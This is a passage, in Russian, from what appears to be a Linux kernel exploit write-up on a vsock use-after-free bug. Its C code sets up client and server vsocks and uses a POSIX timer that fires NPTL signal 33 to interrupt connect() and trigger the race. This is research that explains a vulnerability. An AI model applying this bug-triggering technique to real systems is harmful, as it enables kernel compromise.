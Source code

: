 Итак, сначала создаем серверный виртуальный сокет (server vsock):
```c
#define UAF_PORT 0x2712

int ret = -1;
int vsock1 = 0;
struct sockaddr_vm addr = {
	.svm_family = AF_VSOCK,
	.svm_port = UAF_PORT,
	.svm_cid = VMADDR_CID_LOCAL
};

vsock1 = socket(AF_VSOCK, SOCK_STREAM, 0);
if (vsock1 < 0)
	err_exit("[-] creating vsock");

ret = bind(vsock1, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
if (ret != 0)
	err_exit("[-] binding vsock");

ret = listen(vsock1, 0); /* backlog = 0 */
if (ret != 0)
	err_exit("[-] listening vsock");
```

Затем пытаемся установить соединение с ним для клиентского виртуального сокета (client vsock):
```c
int vsock2 = 0;

vsock2 = socket(AF_VSOCK, SOCK_STREAM, 0);
if (vsock2 < 0)
	err_exit("[-] creating vsock");

ret = connect(vsock2, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
```

Чтобы спровоцировать баг, нужно прервать системный вызов `connect()` с помощью POSIX-сигнала. Исследователи @v4bel и @qwerty использовали `SIGKILL`, но он убивает процесс эксплойта. Мой фаззер нашел более хитрый способ, который меня удивил:

```c
struct sigevent sev = {};
timer_t race_timer = 0;

sev.sigev_notify = SIGEV_SIGNAL;
sev.sigev_signo = 33;
ret = timer_create(CLOCK_MONOTONIC, &sev, &race_timer);
```

Фаззер обнаружил, что таймер может запустить сигнал 33, который прервет `connect()`. Особенность сигнала 33 в том, что библиотека Native POSIX Threads Library (NPTL) использует его для внутренних нужд, и операционная система экранирует приложения от него. В руководстве (`man 7 nptl`) читаем:

>NPTL makes internal use of the first two real-time signals (signal numbers 32 and 33).
One of these signals is used to support thread cancellation and POSIX timers (see `timer_create(2)`); the other is used as part of a mechanism that ensures all threads in a process always have the same UIDs and GIDs, as required by POSIX. These signals cannot be used in applications.
